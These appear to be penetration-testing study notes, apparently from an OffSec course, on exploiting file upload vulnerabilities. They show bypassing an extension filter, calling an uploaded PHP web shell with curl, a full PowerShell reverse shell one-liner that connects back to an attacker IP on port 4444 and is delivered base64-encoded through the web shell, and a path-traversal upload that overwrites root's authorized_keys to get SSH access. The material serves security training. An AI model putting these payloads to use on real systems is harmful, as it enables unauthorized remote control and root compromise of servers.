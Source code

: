 After we identify the framework or language of the target web application, we need to find a way to upload our web shell. The web shell needs to be placed in a location where we can access it. Next, we can provide commands to it, which are executed on the underlying system

One method to bypass this filter is to change the file extension to a less-commonly used PHP file extension[2](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-upload-vulnerabilities-44692/using-executable-files-44644#fn-local_id_228-2) such as **.phps** or **.php7**. This may allow us to bypass simple filters that only check for the most common file extensions, **.php** and **.phtml**. or by changing characters in the file extension to upper case(PHP or pHP)

example:

we will upload a simple webshell that can take params from cmd(find this in /usr/share/webshells/php), then we can run command below(dir where we uploaded the file, in this case it is called uploads):
```
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir
```

note the php extension as target seemed to blacklist php files.

Next,
powershell one liner for windows backdoor:
```
kali@kali:~$ pwsh
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'


PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA


PS> exit
```

then send the encoded text through cmd:
```
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

Using non executable files:

lets say we cant find any routes to index.php or admin.php(other routes that indicate an executable file),but we can still upload files:

With burp we can intercept the req and try to send the file to a sequence of ../ aka root of system.

Next we can try to overwrite that but We should be aware, that blindly overwriting files in a real-life penetration test could result in lost data or costly downtime of a production system.

first we need to run:
```
ssh-keygen
```

rename the public key(filename.pub) -> authorized_keys

then upload and specify ../../../../../root/.ssh/authorized_keys as the filename.

once uploaded, if this overwrote the authorized_keys file, we should now have our pub key in there so we can ssh as root.



**Note** When testing a file upload form, we should always determine what happens when a file is uploaded twice. If the web application indicates that the file already exists, we can use this method to brute force the contents of a web server. Alternatively, if the web application displays an error message, this may provide valuable information such as the programming language or web technologies in use.



